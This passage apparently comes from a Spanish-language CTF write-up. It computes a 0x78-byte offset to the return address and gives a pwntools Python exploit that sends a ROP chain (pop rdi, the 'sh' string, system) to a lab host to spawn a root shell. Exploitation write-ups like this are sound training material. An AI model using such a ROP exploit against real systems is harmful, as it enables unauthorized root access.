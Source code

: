#### Padding

Ahora solo queda calcular el padding entre la primera entrada del binario y la dirección de retorno a sobreescribir.

![img](/imgs/write-ups/by-me/minimal/minimal_10.png)

En este caso, la diferencia es de **0x78** bytes.

### Exploit

Con toda esta información recopilada podemos hacer un script en python que explote esta vulnerabilidad y obtener una shell como root.

```py
from pwn import *

# Conectarse al proceso en remoto
target = remote('192.168.1.125', 8000)

# Gadgets y direcciones importantes
system_addr = p64(0x0040124f) # Dirección de la llamada a system()
sh_address = p64(0x004021f5) # Dirección de la cadena de caracteres "sh"
pop_rdi= p64(0x004015dd) # Dirección de la instrucción pop rdi

# Creación del payload
payload = b"A" * 0x78 # Padding
payload += pop_rdi
payload += sh_address
payload += system_addr

target.sendline(payload)
target.interactive()
```
